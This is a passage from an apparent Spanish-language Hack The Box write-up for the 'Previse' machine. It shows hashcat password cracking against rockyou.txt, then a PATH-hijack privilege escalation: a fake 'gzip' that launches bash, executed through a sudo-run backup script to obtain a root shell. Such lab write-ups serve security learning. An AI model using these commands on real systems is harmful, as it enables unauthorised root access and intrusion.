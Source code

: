 ```hashcat -a 0 -m 500 hashM4lwhere /usr/share/wordlists/rockyou.txt```
```bash
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
Vemos que ejecuta el comando de `gzip` y de `date`. Lo que podemos hacer es cambiar el código que ejecutan esos comandos.
```bash
m4lwhere@previse:~$ which gzip
/bin/gzip
```
Vemos que gzip se encuentra en `/bin/gzip`, si nosotros podemos cambiar el lugar de dónde ejecuta este comando, vamos a poder escribir el código que queramos.

### Injección PATH
Lo que podemos hacer es editar el _PATH_ del comando gzip para que el programa que vea el entorno sea nuestra versión y no la correcta.
`export PATH=:/home/m4lwhere:$PATH`

Creamos una bash en el gzip que tomará el _PATH_

`echo "/bin/bash" > /home/m4lwhere/gzip`

Le damos permisos.

`chmod 777 /home/m4lwhere/gzip`

Lo ejecutamos.

`sudo /opt/scripts/access_backup.sh`

Y obtenemos una **shell** como **root** :)

![](https://github.com/Tnr1112/HTB-Writeups/blob/main/Machines-Maquinas/Easy-Facil/Linux/Previse/images/root.jpg "Root")

